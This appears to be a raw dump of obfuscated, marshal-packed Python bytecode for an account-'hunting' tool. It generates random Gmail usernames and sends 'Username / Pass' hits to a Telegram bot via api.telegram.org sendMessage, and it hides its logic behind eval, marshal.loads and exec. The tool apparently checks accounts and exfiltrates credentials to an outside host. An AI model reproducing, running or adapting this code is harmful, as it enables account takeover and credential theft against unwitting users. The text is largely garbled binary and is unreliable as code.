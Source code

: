 <module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00\xda\x00s\xec\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x10\x00\x00\x00e\x00g\x00d\x00\xa2\x01\x83\x01\xa0\x01\xa1\x00S\x00)\x01)\x1a\xe9q\x00\x00\x00\xe9w\x00\x00\x00\xe9e\x00\x00\x00\xe9r\x00\x00\x00\xe9t\x00\x00\x00\xe9y\x00\x00\x00\xe9u\x00\x00\x00\xe9i\x00\x00\x00\xe9o\x00\x00\x00\xe9p\x00\x00\x00\xe9a\x00\x00\x00\xe9s\x00\x00\x00\xe9d\x00\x00\x00\xe9f\x00\x00\x00\xe9g\x00\x00\x00\xe9h\x00\x00\x00\xe9j\x00\x00\x00\xe9k\x00\x00\x00\xe9l\x00\x00\x00\xe9z\x00\x00\x00\xe9x\x00\x00\x00\xe9c\x00\x00\x00\xe9v\x00\x00\x00\xe9b\x00\x00\x00\xe9n\x00\x00\x00\xe9m\x00\x00\x00)\x02\xda\x05bytes\xda\x06decode\xa9\x00r\x1c\x00\x00\x00r\x1c\x00\x00\x00\xda\x06string\xda\x08<module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00s\x9c\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x10\x00\x00\x00e\x00g\x00d\x00\xa2\x01\x83\x01\xa0\x01\xa1\x00S\x00)\x01)\n\xe9@\x00\x00\x00\xe9g\x00\x00\x00\xe9m\x00\x00\x00\xe9a\x00\x00\x00\xe9i\x00\x00\x00\xe9l\x00\x00\x00\xe9.\x00\x00\x00\xe9c\x00\x00\x00\xe9o\x00\x00\x00r\x02\x00\x00\x00)\x02\xda\x05bytes\xda\x06decode\xa9\x00r\x0b\x00\x00\x00r\x0b\x00\x00\x00\xda\x06string\xda\x08<module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00c\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x04\x00\x00\x00c\x00\x00\x00s\x18\x00\x00\x00|\x00]\x10}\x01t\x00\xa0\x01t\x02\xa1\x01V\x00\x01\x00q\x02d\x00S\x00\xa9\x01N\xa9\x03\xda\x06random\xda\x06choice\xda\x03abc\xa9\x02\xda\x02.0\xda\x01ir\x0f\x00\x00\x00r\x0f\x00\x00\x00r\x10\x00\x00\x00\xda\t<genexpr>-\x00\x00\x00\xf3\x00\x00\x00\x00r\x1b\x00\x00\x00\xe9\x08\x00\x00\x00sy\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x10\x00\x00\x00e\x00g\x00d\x00\xa2\x01\x83\x01\xa0\x01\xa1\x00S\x00)\x01)\x03\xe9:\x00\x00\x00\xe9 \x00\x00\x00r\x01\x00\x00\x00)\x02\xda\x05bytes\xda\x06decode\xa9\x00r\x04\x00\x00\x00r\x04\x00\x00\x00\xda\x06string\xda\x08<module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00c\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x04\x00\x00\x00c\x00\x00\x00s\x18\x00\x00\x00|\x00]\x10}\x01t\x00\xa0\x01t\x02\xa1\x01V\x00\x01\x00q\x02d\x00S\x00r\x13\x00\x00\x00r\x14\x00\x00\x00r\x18\x00\x00\x00r\x0f\x00\x00\x00r\x0f\x00\x00\x00r\x10\x00\x00\x00r\x1b\x00\x00\x002\x00\x00\x00r\x1c\x00\x00\x00sr\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x10\x00\x00\x00e\x00d\x00d\x01g\x02\x83\x01\xa0\x01\xa1\x00S\x00)\x02\xe9:\x00\x00\x00\xe9 \x00\x00\x00)\x02\xda\x05bytes\xda\x06decode\xa9\x00r\x04\x00\x00\x00r\x04\x00\x00\x00\xda\x06string\xda\x08<module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00\xe9\x02\x00\x00\x00z\x1chttps://api.telegram.org/botz\x15/sendMessage?chat_id=u3\x00\x00\x00&text=New Hunt By Alsh \xe2\x9c\x85\xe2\x99\xbb\xef\xb8\x8f\nUsernam \xd8\x9b Pass:  z2 \n-----------\nby:  @C7CCQ \nCH:  @CFCCQ\n-----------s\x9c\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x10\x00\x00\x00e\x00g\x00d\x00\xa2\x01\x83\x01\xa0\x01\xa1\x00S\x00)\x01)\n\xe9W\x00\x00\x00\xe9r\x00\x00\x00\xe9o\x00\x00\x00\xe9n\x00\x00\x00\xe9g\x00\x00\x00\xe9 \x00\x00\x00\xe9p\x00\x00\x00\xe9a\x00\x00\x00\xe9s\x00\x00\x00r\x08\x00\x00\x00)\x02\xda\x05bytes\xda\x06decode\xa9\x00r\x0b\x00\x00\x00r\x0b\x00\x00\x00\xda\x06string\xda\x08<module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00).Z\x03fooZ\x03bar\xda\x04eval\xda\x07marshal\xda\x05loads\xda\tcopyrightZ\x08pyfigletr\x07\x00\x00\x00Z\x08requestsr\x0b\x00\x00\x00r\x03\x00\x00\x00r\x04\x00\x00\x00r\x15\x00\x00\x00\xda\x01Z\xda\x01XZ\x02Z1\xda\x01F\xda\x01A\xda\x01C\xda\x01B\xda\x01Yr\x11\x00\x00\x00\xda\x04logo\xda\x05input\xda\x02al\xda\x02ID\xda\x05token\xda\x05printr\x17\x00\x00\x00\xda\x05gmail\xda\x04join\xda\x05rangeZ\x05test1Z\x04hackZ\x05hack1\xda\x01lZ\x05test2Z\x05hack3Z\x05hack4\xda\x01pr\x16\x00\x00\x00\xda\x01gZ\x03tlg\xda\x04postr\x1a\x00\x00\x00\xda\x04exitr\x0f\x00\x00\x00r\x0f\x00\x00\x00r\x0f\x00\x00\x00r\x10\x00\x00\x00\xda\x08<module>\x02\x00\x00\x00sl\x00\x00\x00\x04\x01\x04\x01\x08\x01\x0e\x01\x08\x01\x08\x01\x08\x01\x08\x01\x0c\x01\x0c\x01\x08\x01\x08\x01\x04\x01\x04\x01\x04\x01\x04\x01\x04\x01\x04\x01\x04\x01\x04\x01\x08\x05\x14\x01\x0c\x01\n\x01\x16\x01\x16\x01\x08\x01\x1a\x01\x14\x01\x1a\x01\n\x01\x1a\x01\x08\x01\x0c\x01\x08\x01\n\x02\x0e\x01\x0e\x01\x18\x01\x08\x01\x04\x01\x1a\x01\x08\x01\x18\x01\x08\x01\x04\x01\x16\x01\n\x01\x0e\x01\x08\x01\x0e\x01\x02\xff\x08\x06\x10\x02s\xd3\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x10\x00\x00\x00e\x00g\x00d\x00\xa2\x01\x83\x01\xa0\x01\xa1\x00S\x00)\x01)\x15\xe9#\x00\x00\x00\xe9 \x00\x00\x00\xe9n\x00\x00\x00\xe9o\x00\x00\x00r\x01\x00\x00\x00\xe9s\x00\x00\x00\xe9u\x00\x00\x00\xe9p\x00\x00\x00r\x06\x00\x00\x00r\x03\x00\x00\x00\xe9r\x00\x00\x00\xe9t\x00\x00\x00r\x01\x00\x00\x00\xe9f\x00\x00\x00r\x03\x00\x00\x00r\x07\x00\x00\x00r\x01\x00\x00\x00\xe9"\x00\x00\x00\xe9%\x00\x00\x00r\x04\x00\x00\x00r\n\x00\x00\x00)\x02\xda\x05bytes\xda\x06decode\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x01\x00\x00\x00\xf3\x00\x00\x00\x00\xfa\x01 )\x0cZ\x03fooZ\x03bar\xda\x04eval\xda\x07marshal\xda\x05loads\xda\tcopyright\xda\x03sys\xda\x07version\xda\x04exec\xda\x05printZ\x05feval\xda\x05split\xa9\x00r\x0e\x00\x00\x00r\x0e\x00\x00\x00\xda\x06string\xda\x08<module>\x02\x00\x00\x00s\x10\x00\x00\x00\x04\x01\x04\x01\x08\x01\x0e\x01\x08\x01\x08\x02\x1c\x01\x10\x02s\xd3\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s\x10\x00\x00\x00e\x00g\x00d\x00\xa2\x01\x83\x01\xa0\x01\xa1\x00S\x00)\x01)\x15\xe9#\x00\x00\x00\xe9